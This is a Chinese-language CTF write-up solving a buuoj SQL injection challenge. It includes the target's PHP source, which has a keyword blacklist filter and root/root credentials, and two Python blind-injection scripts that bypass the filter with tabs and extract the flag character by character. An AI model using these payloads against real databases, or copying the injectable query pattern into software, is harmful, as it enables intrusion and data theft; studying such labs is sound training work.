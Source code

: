 >比赛结束以后采用非官方复现平台做的题，和比赛题有轻微不同，比赛中存放flag的table是ctf，这里是flag。

#### 题目地址
buuoj.cn

#### 解题过程

题目中只有一个页面，需要提交id。
![初始界面](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/hackworld.PNG)

id为1,2时，可以分别得到一句话。id为0时，显示error，可能是因为结果为空集。
```txt
id=1
Hello, glzjin wants a girlfriend.
id=2
Do you want to be my girlfriend?
```


id提交为单引号返回false，填入空格会直接显示SQL Injection Checked。这说明id除有过滤，空格被过滤了，但是单引号没过滤。

尝试用Tab代替空格，发现可以。

接下来根据题目中的提示构造payload：
```txt
1   union    select  flag    from    flag
```
被过滤了，直接输入一个
```txt
1   union
```
也会被过滤

这说明union也被过滤了。最后测试发现select和from，括号没有被过滤可以考虑使用函数。

有幸找到了这题的源码，在这里放一下，看看究竟过滤了啥。
```php
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
    	var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}

```

接下来就想办法借助函数构造注入就可以了。思路有很多，看过北邮大佬写的延时注入，这里说一下我的思路。

借助substr函数截取flag中的内容，长度依次增加。

用if函数判断截取出来的内容是什么，这里需要穷举。如果判断成功，返回1，否则返回2。

#### exp

```python
import requests
import time
url = "http://web43.node1.buuoj.cn/index.php"
data = {"id":""}
flag = 'flag{'
length = 5
while True:
    #直接从数字开始猜
	for i in range(48,127):
        #复现平台有waf，一秒只能访问一次
		time.sleep(1)
		#绕过一些过滤字符
		if i in [38,42,43,45,59,96]:
			continue
		data["id"] = "if(substr((select		flag		from	flag),1,{})='{}',1,2)".format(length+1,flag+chr(i)) 
		r = requests.post(url,data=data)
		#返回1
        if 'Hello' in r.text:
			flag+=chr(i)
			length+=1
			print(flag)
			break
	if flag[-1]=='}':
		break

```
这个脚本有点慢，毕竟一个个的猜。如果想快一点，猜的时候可以考虑每次猜一个字符，使用二分法。

下面这段代码稍微改了一下判断的规则，判断ascii码。这样做的好处是如果遇到过滤字符也能得到结果，如果按照最初始的版本，假设flag中包含-，那就gg了。
```python
import requests
import time
#url是随时更新的，具体的以做题时候的为准
url = 'http://40c9be7a-36f0-4e80-94ca-d1ac9e121947.node1.buuoj.cn/index.php'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
	begin = 32
	end = 126
	tmp = (begin+end)//2
	while begin<end:
		print(begin,tmp,end)
		time.sleep(1)
		data["id"] = "if(ascii(substr((select		flag		from	flag),{},1))>{},1,2)".format(i,tmp)
		r = requests.post(url,data=data)
		if 'Hello' in r.text:
			begin = tmp+1
			tmp = (begin+end)//2 
		else:
			end = tmp
			tmp = (begin+end)//2

	flag+=chr(tmp)
    print(flag)
	i+=1
	if flag[-1]=='}':
		break

```
最后得到了flag。
